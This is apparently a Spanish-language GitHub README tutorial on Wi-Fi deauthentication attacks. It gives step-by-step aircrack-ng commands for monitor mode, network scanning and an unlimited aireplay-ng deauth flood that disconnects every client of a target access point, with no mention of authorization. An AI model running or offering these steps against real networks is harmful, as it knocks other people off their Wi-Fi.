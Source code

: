 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=401&lines=Ataque+de+desautenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de desautenticación Wi-Fi, también conocido como denegación de servicio a nivel red, consiste en inundar de solicitudes al punto de acceso o estación para saturar el ancho de banda con el objetivo de desconectar a todos los clientes de la red por un tiempo definido. Las tramas de desautenticación se realizan normalmente para determinar una conexión entre un cliente y un punto de acceso (AP) sin necesidad de ir cifrado. Por lo tanto, cualquier persona dentro de la red local (LAN) puede falsificar la dirección MAC de la víctima o AP.


En el siguiente esquema se observa como el `Atacante` envía solicitudes masivas al `Punto de Acceso`, haciendo que el/los clientes u otros equipos que estén conectados a la red LAN se vean afectados.

![esquema_desautenticacion](https://user-images.githubusercontent.com/75953873/180201683-5b0b1d4d-154d-4f3e-91a0-ecec5e35e4c1.png)

<h1 align="center"></h1>

Existen infinidades de herramientas para realizar este ataque, una de las más conocidas es la suite de Aircrack-ng, ya viene incorporada en distribuciones basadas en Debian como lo es Kali Linux y Parrot OS.

**Instalar en Debian:**
```
sudo apt-get install aircrack-ng
```

Pero antes que nada hay que reconocer la dirección MAC del objetivo (AP) y para ello es necesario poner nuestra tarjeta de red en modo monitor. Esto permitirá escuchar y capturar todos los paquetes que viajan en el aire.
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
![1](https://user-images.githubusercontent.com/75953873/180204632-77b2796f-52ba-4f03-8749-f3ce83a16a47.png)

Si lo prefieren automatizado:
```
airmon-ng start wlan0
```
![2](https://user-images.githubusercontent.com/75953873/180204828-ea12756e-4daf-4041-95e7-337f19969bd7.png)

Lo siguiente será matar los procesos PID para no presentar ningún error al momento de auditar la red. Cada PID es único y se puede matar de forma manual según su ID:
```
pkill <nombre-del-proceso>
```
![3](https://user-images.githubusercontent.com/75953873/180205864-5c1debac-deed-4bb2-8146-58f864389591.png)

Pero si lo preferimos, aircrack lo hace automatizado por nosotros:
```
airmon-ng check kill
```
![4](https://user-images.githubusercontent.com/75953873/180206365-5a57d41b-26a8-40aa-bac1-1b2ad1b80d39.png)

A continuación, es momento de reconocer las redes de nuestro alrededor:
```
airodump-ng wlan0
```
![5](https://user-images.githubusercontent.com/75953873/180207009-d32f3206-8a73-41b7-b389-466aa8ac67a3.png)

**BSSID:** Dirección MAC del punto de acceso.

**PWR:** Rango en el que se encuentra el AP.

**Beacons:** Número de paquetes envíado por el AP.

**#Data:** Número de paquetes capturados.

**CH:** Número de canal donde opera el AP.

**MB:** Velocidad máxima soportada por el AP. MB = 11 es 802.11b, si MB = 22 es 802.11b+ y hasta 54 son 802.11g.

**ENC:** Tipo de algoritmo de cifrado, generalmente las redes privadas utilizan WPA/WPA2 y WEP. En caso de ser una red pública, el algoritmo que utilizará es OPN = sin encriptación.

**AUTH:** Protocolo de autenticación utilizado.

**ESSID:** Nombre de la red inalámbrica.

Luego de reconocer el BSSID y el canal, quedaría capturar los paquetes del AP objetivo:
```
airodump-ng -c <N-CHANNEL> --bssid <MAC-AP> wlan0
```
![6](https://user-images.githubusercontent.com/75953873/180209382-2b325c19-3b9c-4fc9-8395-91d46da5fb16.png)

La `STATION` son los clientes que están conectados la red (BSSID). En otra terminal proseguiremos a lanzar el ataque de desautenticación para desconectarlos:
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP>
```
![7](https://user-images.githubusercontent.com/75953873/180210826-d42ea7a3-8a7a-49aa-9f9a-bedbcc510d1c.png)

Al específicar el tiempo en `0` el ataque será ilimitado, el párametro `a` es el BSSID del punto de acceso que atacará, permitiendo así que todos los clientes no puedan conectarse a dicha red.


Continuará.....
